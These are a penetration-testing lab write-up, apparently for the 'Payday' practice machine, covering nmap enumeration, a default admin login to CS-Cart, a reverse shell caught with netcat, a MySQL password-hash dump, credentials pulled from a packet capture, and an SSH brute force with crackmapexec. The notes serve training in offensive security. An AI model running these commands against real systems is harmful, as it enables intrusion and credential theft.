









# Paday - Linux, intermediate

## Enumeration

* nmap
```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 f3:6e:87:04:ea:2d:b3:60:ff:42:ad:26:67:17:94:d5 (DSA)
|_  2048 bb:03:ce:ed:13:f1:9a:9e:36:03:e2:af:ca:b2:35:04 (RSA)
80/tcp  open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-title: CS-Cart. Powerful PHP shopping cart software
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
110/tcp open  pop3        Dovecot pop3d
|_ssl-date: 2025-12-25T09:22:05+00:00; +5s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_pop3-capabilities: UIDL TOP CAPA RESP-CODES SASL STLS PIPELINING
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
143/tcp open  imap        Dovecot imapd
|_ssl-date: 2025-12-25T09:22:06+00:00; +6s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_imap-capabilities: completed LOGINDISABLEDA0001 IMAP4rev1 OK LOGIN-REFERRALS THREAD=REFERENCES CHILDREN IDLE LITERAL+ SORT NAMESPACE UNSELECT STARTTLS MULTIAPPEND SASL-IR Capability
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
445/tcp open  netbios-ssn Samba smbd 3.0.26a (workgroup: MSHOME)
993/tcp open  ssl/imap    Dovecot imapd
|_ssl-date: 2025-12-25T09:22:06+00:00; +6s from scanner time.
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_imap-capabilities: completed IMAP4rev1 OK LOGIN-REFERRALS THREAD=REFERENCES AUTH=PLAINA0001 IDLE LITERAL+ SORT NAMESPACE UNSELECT CHILDREN MULTIAPPEND SASL-IR Capability
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
995/tcp open  ssl/pop3    Dovecot pop3d
|_ssl-date: 2025-12-25T09:22:05+00:00; +5s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing 
```
* CS-CART is running on port 80 with version 1.3.3.


* Directory enumeration shows admin.php page



* We are able to login with admin:admin credentials.

* 1.3.3 version is vulnerable to RCE.



## Initial Access



* We get a shell as www-data
```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/payday]
└─$ nc -nvlp 4444       
listening on [any] 4444 ...
connect to [192.168.45.195] from (UNKNOWN) [192.168.160.39] 34367
Linux payday 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686 GNU/Linux
 04:54:28 up 39 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
```

## Priv Esc

* Found db creds in config file.




* Login to mysql
```
www-data@payday:/$ mysql -u root -p
mysql -u root -p
Enter password: root

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 148
Server version: 5.0.45-Debian_1ubuntu3-log Debian etch distribution

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| cscart             | 
| mysql              | 
+--------------------+
3 rows in set (0.00 sec)

mysql> use mysql;
use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              | 
| db                        | 
| func                      | 
| help_category             | 
| help_keyword              | 
| help_relation             | 
| help_topic                | 
| host                      | 
| proc                      | 
| procs_priv                | 
| tables_priv               | 
| time_zone                 | 
| time_zone_leap_second     | 
| time_zone_name            | 
| time_zone_transition      | 
| time_zone_transition_type | 
| user                      | 
+---------------------------+
17 rows in set (0.00 sec)

mysql> show columns from user
show columns from user
    -> ;
;
+-----------------------+-----------------------------------+------+-----+---------+-------+
| Field                 | Type                              | Null | Key | Default | Extra |
+-----------------------+-----------------------------------+------+-----+---------+-------+
| Host                  | char(60)                          | NO   | PRI |         |       | 
| User                  | char(16)                          | NO   | PRI |         |       | 
| Password              | char(41)                          | NO   |     |         |       | 
| Select_priv           | enum('N','Y')                     | NO   |     | N       |       | 
| Insert_priv           | enum('N','Y')                     | NO   |     | N       |       | 
| Update_priv           | enum('N','Y')                     | NO   |     | N       |       | 
| Delete_priv           | enum('N','Y')                     | NO   |     | N       |       | 
| Create_priv           | enum('N','Y')                     | NO   |     | N       |       | 
| Drop_priv             | enum('N','Y')                     | NO   |     | N       |       | 
| Reload_priv           | enum('N','Y')                     | NO   |     | N       |       | 
| Shutdown_priv         | enum('N','Y')                     | NO   |     | N       |       | 
| Process_priv          | enum('N','Y')                     | NO   |     | N       |       | 
| File_priv             | enum('N','Y')                     | NO   |     | N       |       | 
| Grant_priv            | enum('N','Y')                     | NO   |     | N       |       | 
| References_priv       | enum('N','Y')                     | NO   |     | N       |       | 
| Index_priv            | enum('N','Y')                     | NO   |     | N       |       | 
| Alter_priv            | enum('N','Y')                     | NO   |     | N       |       | 
| Show_db_priv          | enum('N','Y')                     | NO   |     | N       |       | 
| Super_priv            | enum('N','Y')                     | NO   |     | N       |       | 
| Create_tmp_table_priv | enum('N','Y')                     | NO   |     | N       |       | 
| Lock_tables_priv      | enum('N','Y')                     | NO   |     | N       |       | 
| Execute_priv          | enum('N','Y')                     | NO   |     | N       |       | 
| Repl_slave_priv       | enum('N','Y')                     | NO   |     | N       |       | 
| Repl_client_priv      | enum('N','Y')                     | NO   |     | N       |       | 
| Create_view_priv      | enum('N','Y')                     | NO   |     | N       |       | 
| Show_view_priv        | enum('N','Y')                     | NO   |     | N       |       | 
| Create_routine_priv   | enum('N','Y')                     | NO   |     | N       |       | 
| Alter_routine_priv    | enum('N','Y')                     | NO   |     | N       |       | 
| Create_user_priv      | enum('N','Y')                     | NO   |     | N       |       | 
| ssl_type              | enum('','ANY','X509','SPECIFIED') | NO   |     |         |       | 
| ssl_cipher            | blob                              | NO   |     |         |       | 
| x509_issuer           | blob                              | NO   |     |         |       | 
| x509_subject          | blob                              | NO   |     |         |       | 
| max_questions         | int(11) unsigned                  | NO   |     | 0       |       | 
| max_updates           | int(11) unsigned                  | NO   |     | 0       |       | 
| max_connections       | int(11) unsigned                  | NO   |     | 0       |       | 
| max_user_connections  | int(11) unsigned                  | NO   |     | 0       |       | 
+-----------------------+-----------------------------------+------+-----+---------+-------+
37 rows in set (0.00 sec)

mysql> select Host,User,Password from user;
select Host,User,Password from user;
+-----------+------------------+-------------------------------------------+
| Host      | User             | Password                                  |
+-----------+------------------+-------------------------------------------+
| localhost | root             | *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B | 
| ubuntu01  | root             | *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B | 
| 127.0.0.1 | root             | *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B | 
| localhost | debian-sys-maint | *66C7454DEB04B50D88AC3B255B79B1CEE817961D | 
+-----------+------------------+-------------------------------------------+
4 rows in set (0.00 sec)

```

* No success with the passwords.
---------------------------------------------------------

* We have a capture.cap file in /root. We download it in our machine and open it with wireshark.



* We get brett:ilovesecurity. 
* Tried to ssh - no go

--------------------------------------------------------



* No suid, sgid binaries set. No cron jobs, no sudo for www-data

* Bruteforce ssh for patrick :-(

```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/payday]
└─$ crackmapexec ssh 192.168.160.39 -u patrick -p /usr/share/wordlists/rockyou.txt
SSH         192.168.160.39  22     192.168.160.39   [*] SSH-2.0-OpenSSH_4.6p1 Debian-5build1
SSH         192.168.160.39  22     192.168.160.39   [-] patrick:123456 Authentication failed.
SSH         192.168.160.39  22     192.168.160.39   [-] patrick:12345 Authentication failed.
SSH         192.168.160.39  22     192.168.160.39   [-] patrick:angela Authentication failed.
SSH         192.168.160.39  22     192.168.160.39   [-] patrick:poohbear Authentication failed.
SSH         192.168.160.39  22     192.168.160.39   [+] patrick:patrick 
```
* Switch user to patrick:patrick


